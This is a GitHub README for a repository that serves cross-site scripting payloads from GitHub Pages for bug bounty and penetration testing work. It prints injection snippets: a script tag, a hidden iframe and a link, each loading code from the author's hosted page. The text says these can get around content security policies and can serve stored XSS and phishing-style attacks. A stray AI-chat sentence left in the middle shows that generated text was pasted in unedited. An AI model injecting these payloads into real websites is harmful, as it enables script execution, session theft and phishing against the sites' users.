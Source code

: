 # XSS Payload Host

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.
<br>
<div align="center" style="margin: 30px 0;">
  <a href="https://www.whatsapp.com/channel/0029Vb68FeRFnSzGNOZC3h3x">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=WhatsApp+Channel&color=25D366&logo=whatsapp&logoColor=FFFFFF&label=" alt="WhatsApp Channel">
  </a>
  <a href="https://t.me/HackerSecure">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Telegram+Channel&color=24A1DE&logo=telegram&logoColor=FFFFFF&label=" alt="Telegram Channel">
  </a>
  <a href="https://www.linkedin.com/in/cybersecurity-pentester/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkedIn&color=0A66C2&logo=LinkedIn&logoColor=FFFFFF&label=" alt="LinkedIn">
  </a>
  <a href="https://linktr.ee/yogsec">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkTree&color=25D366&logo=linktree&logoColor=FFFFFF&label=" alt="LinkTree">
  </a>
  <a href="https://x.com/home">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=X&color=000000&logo=x&logoColor=FFFFFF&label=" alt="X">
  </a>
  <a href="mailto:abhinavsingwal@gmail.com?subject=Hi%20YogSec%20,%20nice%20to%20meet%20you!">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Gmail&color=EA4335&logo=Gmail&logoColor=FFFFFF&label=" alt="Email">
  </a>
  <a href="https://yogsec.github.io/yogsec/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Website&color=FFFFC5&logo=Firefox&logoColor=000000&label=" alt="Website">
  </a>
</div>
<br>

![Page](https://github.com/yogsec/xss-test/blob/main/Screenshot%20from%202025-04-09%2002-47-52.png?raw=true)

<br>

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<a>`,`<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

Absolutely! Here's a clean, well-formatted `README.md` section for **"How to Use"**, with proper markdown and code blocks to make it look professional and easy to read:

---


## How I Use It

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting.

🔗 **Live Payload URL:**  
[https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a `<script src>` or `<iframe>` pointing to my hosted payload. Here are a few ways I use it:

### 📜 Basic Script Injection

```bash
<script src="https://yogsec.github.io/xss-test/"></script>
```

### 🕵️‍♂️ Stealthy iframe Injection

```bash
<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>
```

### 🔗 Clickable Link Payload

```bash
<a href="https://yogsec.github.io/xss-test/">Click Here</a>
```

This method is useful on targets where CSP policies restrict inline scripts, but allow loading scripts or frames from external sources. It’s also handy for stored XSS and phishing-style payloads.

> ⚠️ Use only for ethical hacking and responsible disclosure.


